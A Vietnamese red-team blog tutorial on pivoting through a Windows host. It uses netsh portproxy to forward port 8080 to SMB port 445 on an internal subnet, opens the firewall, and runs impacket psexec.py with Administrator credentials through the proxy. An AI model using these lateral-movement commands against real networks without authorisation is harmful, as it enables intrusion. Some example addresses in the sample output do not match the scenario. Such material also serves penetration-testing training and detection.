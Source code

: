 ```yaml
--- 
layout: post
title: Pivoting: Setting up a port proxy with netsh on windows
categories: Network Pivot Redteam
author: Rosiz
---
```


* conten
{:toc}

Pivoting là một skill thiết yếu cần được trang bị cho một Red Teamer. Khi bạn đứng bên trong một network và bạn vô tình tìm thấy một server, mà nó có thể giao tiếp với một subnet mục tiêu mà bạn đang theo đuổi, câu hỏi là làm gì tiếp theo?

Là một Red Teamer bạn sẽ muốn tận dụng lợi thế này để có thể attack những gì trên đó và có thể đi sâu và xa hơn vào trong của hệ thống mạng của target.

"Pivoting" là gì? Bạn có thể hiểu Pivoting là cách bạn đi từ chỗ đứng hiện tại của mình đến nơi bạn muốn đến?

Vậy thì Pivoting bằng cách nào? Thì hôm này mình xin giới thiệu cách setup một portproxy giữa máy của bạn và máy client nằm trong subnet mục tiêu bằng cách sử dụng netsh trên Windows.

![](https://raw.githubusercontent.com/rosiz/rosiz.github.io/master/__photo/__no1/1.PNG)

Ví dụ trong ngữ cảnh ta có một máy A có thể thấy được máy B, mà trên B được cấu hình thêm một interface hoặc được route để thấy được một subnet khác, bao gồm máy C. Như vậy máy A không thể thấy trực tiếp được máy C, và ngược lại. Vậy thì làm sao để khai thác máy C từ A?

![](https://raw.githubusercontent.com/rosiz/rosiz.github.io/master/__photo/__no1/2.PNG)

- Machine A: 172.16.0.20
- Machine B: 172.16.0.11 và 7.7.7.11
- Machine C: 7.7.7.20

## Seting on machine B

```js
netsh interface portproxy add v4tov4 listenport=8080 connectport=445 connectaddress=7.7.7.20
```

Ở đây, ta đang tiến hành setup một portproxy sẽ listen trên port 8080 và nó sẽ nhậ gửi data đến conectAddress (A) trên port 445. Điều này sẽ được thực hiện thông qua kết nối TCP riêng biệt.

Ta có thể kiểm tra setting bằng lệnh dưới đây:

```js
netsh interface portproxy show v4tov4
```

```js
Listen on IPv4:             Connect to IPv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
*               8080        192.168.1.2     445
```

*Note:* Portproxy config sẽ được lưu trong registry, vì vậy đây là nơi bạn có thể phát hiện các persistence portproxies mà không sử dụng netsh.

```js
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp

*/1337       : 192.168.1.2/8000
```

Để tiếp tục quá trình thừ nghiệm, bạn hãy tiến hành mở port trên máy B bằng lệnh sau:

```js
netsh advfirewall firewall add rule name="Proxy all the things" dir=in action=allow protocol=TCP localport=8080
```

Bạn có thể hiểu như thế này, nếu máy A muốn kết nối đến port 445 của máy C (7.7.7.20) thì nó phải bắt buộc đẩy traffic đến port 8080 của máy B (172.16.0.11)

## On Machine A:

Trong trường hợp này mình sẽ dùng công cụ psexec.py của bộ công cụ impacket để thực hiện kết nối đến máy C (7.7.7.20:445) thông qua máy B (172.16.0.11:8080)

```js
psexec.py Domain/Administrator:123@172.16.0.11 -port 8080
```
*Note:* Bạn cần chỉnh sữ port trong script python psexec.py để thực hiện điều này.

Sau khi hoàn toàn công việc, bạn muốn remove portproxy, bạn có thể sử dụng lệnh sau:

```js
netsh interface portproxy delete v4tov4 listenport=8080
```